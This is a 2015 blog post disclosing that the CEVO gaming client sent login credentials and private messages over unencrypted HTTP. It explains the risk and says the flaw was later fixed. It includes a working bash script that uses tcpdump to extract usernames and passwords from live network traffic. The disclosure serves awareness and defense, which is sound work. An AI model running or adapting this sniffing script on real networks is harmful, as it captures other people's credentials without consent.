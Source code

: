 ```yaml
---
title: "CEVO Client Information Disclosure"
description: "CEVO Client Information Disclosure vulnerability discloses account email, password, username, private messages, and chat room conversations"
author: "jonpulsifer"
date: "2015-07-26"
draft: false
tags:
- "cs:go"
---
```


### tl;dr

CEVO was a global eSports company built around North America’s largest competitive online PC gaming league. The CEVO client is software that is mandatory to be run during online play. The client was transmitting user authentication details (usernames and passwords) and private conversations in clear text which made them susceptible to eavesdropping attacks.

--- 

Good day CS:GO friends!

Reference: [/r/globaloffensive post][reddit-esea] about [ESEA][esea]'s password security from early spring 2015.

I had a couple of the guys over this weekend to play some video games and of course CS:GO was on our list. We decided to download the [CEVO][cevo] client because of the cost of ESEA and our skill differences in matchmaking. I recalled a [Reddit post][reddit-esea] from this spring and decided to double check that CEVO would at least take the lessons learned from the attacks on ESEA and secure their users. I was wrong!

While the CEVO website has enabled HTTPS, [arguably] the most important part of their business, the client, is verifying login details and more in plain ol' HTTP. How does that work?

Whenever a client authenticates with a website or web based application, typically, an `HTTP POST` request is generated. The `HTTP POST` request contains your account credentials (email address for CEVO, username for ESEA) and password. This is completely normal. The big difference here is that services like Google, Facebook, banks, .etc, use TLS  (transport layer security) to encrypt the data between your computer and the server responsible for performing the authentication so no one else can see it; CEVO does not.

Not only does the client not encrypt login credentials, **all communication over the client happens over HTTP** which means your private messages are also disclosed to whoever is listening.

So what? Who cares?

With things like prize pools totaling over USD$150,000 and the CS:GO skins gambling economy, it would be trivial for a malicious person to harvest professional players' information from large CEVO events and use that information to DoS an entire event for fun and profit!

How can I check?

If you're not that savvy with Linux you could always use something like [Fiddler](https://en.wikipedia.org/wiki/Fiddler_(software)) or [Wireshark](https://www.wireshark.org/) to do the heavy lifting for you if. Here's what fiddler looks like:

{{< figure src="fiddler-cevo.png" width="100%" link="fiddler-cevo.png" title="Fiddler showing HTTP results" >}}

If you prefer the command line, use something like `tcpdump` and string search your way to freedom.

```bash {linenos=table}
#!/bin/bash
# This script returns CEVO client usernames and passwords from live network traffic
# Hook your Linux laptop into a SPAN near the edge and enjoy

# Usage:
# ./cevo.sh <interface name>

CEVOIP=$(dig +short cevo.com)
IPCOUNT=$(echo $CEVOIP | wc -w)

if [ -z $1 ]; then echo "Supply an interface to capture on. (eg ./cevo.sh eth0)"; exit 1; fi

INTERFACE=$1

# check if supplied interface exists
ifconfig $INTERFACE 2>&1 > /dev/null; if [ $? -gt 0 ]; then echo "Can't find interface. Exiting."; exit 1; fi

# Multiple IP logic
if [ $IPCOUNT -gt 1 ]; then
        BPF_HOST=$(echo $CEVOIP | sed 's/[[:blank:]]/ or /g')
else
        BPF_HOST=$(echo $CEVOIP | sed 's/[[:blank:]]+//g')
fi

BPF="tcp and port 80 and dst host ($BPF_HOST)"

echo "Running (end with ^C)..."
tcpdump -ln -i $INTERFACE -A "$BPF" 2>/dev/null | while read CREDZ; do
        echo $CREDZ | grep -E '^redirect-url' | awk -F"[&=]" '{print "Login:",$4,"\tPassword:",$6}' | sed 's/%40/@/g'
done
```

{{< figure src="tcpdump-cevo.gif" width="100%" link="tcpdump-cevo.gif" title="tcpdump showing usernames and passwords" >}}


~~So, until this gets fixed, I would exercise extreme caution when logging in via the CEVO client to play some games, especially on a network that you do not trust.~~ It's fixed :smile:

[cevo]: https://cevo.com
[esea]: https://play.esea.net
[reddit-esea]: https://www.reddit.com/r/GlobalOffensive/comments/2wl8qz/warning_esea_shows_complete_disregard_for_your/
